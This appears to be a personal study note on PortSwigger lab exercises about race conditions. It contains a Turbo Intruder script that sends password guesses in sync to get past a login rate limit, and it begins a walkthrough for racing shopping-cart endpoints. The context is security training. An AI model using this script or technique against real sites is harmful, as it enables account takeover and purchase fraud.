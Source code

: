 ```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    passwords = []
  
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

```
- to generate the password list from the normal list that you have:
	- open in the browser a webpage and right click > Inspect and open the console
	- paste the list in between the quote like this `this quote`
	- append to the list this `this quote`.split("\n") and press enter
	- right click into the new array and copy as `Copy Object`
- in Turbo Intruder in the request on the top change the password field as `%s`
	![[Pasted image 20240912172000.png]]
- then click on the bottom "Attack"
- check the status code => the only one with 302 contains the right password
- turn off the proxy from foxy proxy, go to the home page of the lab and insert the password


### Multi-endpoint race conditions
<span style="background:#fff88f">Predict a potential collision</span>
1. Log in and purchase a gift card so you can study the purchasing flow.

2. Consider that the shopping cart mechanism and, in particular, the restrictions that determine what you are allowed to order, are worth trying to bypass.

3. From the proxy history, identify all endpoints that enable you to interact with the cart. For example, a `POST /cart` request adds items to the cart and a `POST /cart/checkout` request submits your order.

4. Add another gift card to your cart, then send the `GET /cart` request to Burp Repeater.

5. In Repeater, try sending the `GET /cart` request both with and without your session cookie. Confirm that without the session cookie, you can only access an empty cart. From this, you can infer that:
    - The state of the cart is stored server-side in your session.
    - Any operations on the cart are keyed on your session ID or the associated user ID.
      This indicates that there is potential for a collision.
